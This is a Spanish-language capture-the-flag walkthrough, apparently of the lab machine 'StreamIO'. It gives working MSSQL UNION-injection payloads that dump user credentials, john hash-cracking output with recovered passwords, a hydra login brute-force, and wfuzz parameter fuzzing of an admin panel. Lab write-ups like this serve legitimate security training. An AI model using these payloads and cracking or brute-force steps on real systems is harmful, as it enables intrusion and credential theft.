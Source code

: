 Ciertas palabras como "order" y "null" no las pilla: 
```asd' union select 1,2,3,4,5,6-- -``` -> 2 3  
```asd' union select 1,(SELECT DB_NAME()),3,4,5,6-- -``` -> STREAMIO  
```asd' union select 1,name,3,4,5,6 FROM master..sysdatabases-- -``` -> master, model, streamio...  
```asd' union select 1,name,id,4,5,6 FROM streamio..sysobjects-- -``` -> movies, users...  
```asd' union select 1,name,id,4,5,6 FROM syscolumns where id=901578250-- -``` password, username...  
```asd' union select 1,concat(username,':',password),3,4,5,6 FROM users-- -``` credenciales...  

Existe la tabla "streamio_backup" pero no nos deja acceder:   
```console
└─$ hashid 665a50ac9eaa781e4f7f04199db97a11
[+] MD2
[+] MD5 .. En john se llama Raw-MD5
└─$ john creds -w=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
highschoolmusical (Thane)   
physics69i       (Lenord)   
paddpadd         (admin)    
66boysandgirls.. (yoshihide)
%$clara          (Clara)    
$monique$1991$   (Bruno)    
$hadoW           (Barry)    
$3xybitch        (Juliette) 
##123a8j8w5123## (Lauren)   
!?Love?!123      (Michelle) 
!5psycho8!       (Victoria) 
!!sabrina$       (Sabrina)
```
Con todo esto se crea un archivo de credenciales:  
```console
└─$ hydra -L users.txt -P pass.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
[443][http-post-form] host: streamio.htb   login: yoshihide   password: 66boysandgirls..
[443][http-post-form] host: streamio.htb   login: Bruno   password: 66boysandgirls..
[443][http-post-form] host: streamio.htb   login: Barry   password: $3xybitch
[443][http-post-form] host: streamio.htb   login: Juliette   password: !!sabrina$
[443][http-post-form] host: streamio.htb   login: Michelle   password: 66boysandgirls..
[443][http-post-form] host: streamio.htb   login: Victoria   password: $3xybitch
[443][http-post-form] host: streamio.htb   login: Sabrina   password: !!sabrina$
```

Con las credenciales de esta persona se puede acceder al panel de admin de antes gracias que arrastramos la cookie privilegiada  "PHPSESSID"  
![streamIO_6](https://user-images.githubusercontent.com/96772264/206920959-2912cd42-9811-440a-9f10-0c0249f67574.PNG)

-----------------------
# Part 3: Explotación de PHPs

En el panel de admin hay varias pestañas que se traducen en parametro:   
```console
└─$ wfuzz -c --hc=404 --hh=1678 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Cookie: PHPSESSID=38omuh6knr35pgjhtfvmi83tjd" 'https://streamIO.htb/admin/?FUZZ=test'
000000111:   200        74 L     187 W      2444 Ch     "user"
000000228:   200        398 L    916 W      12484 Ch    "staff"
000000999:   200        10790    25878 W    320235 Ch   "movie"
000005315:   200        49 L     137 W      1712 Ch     "debug"
```

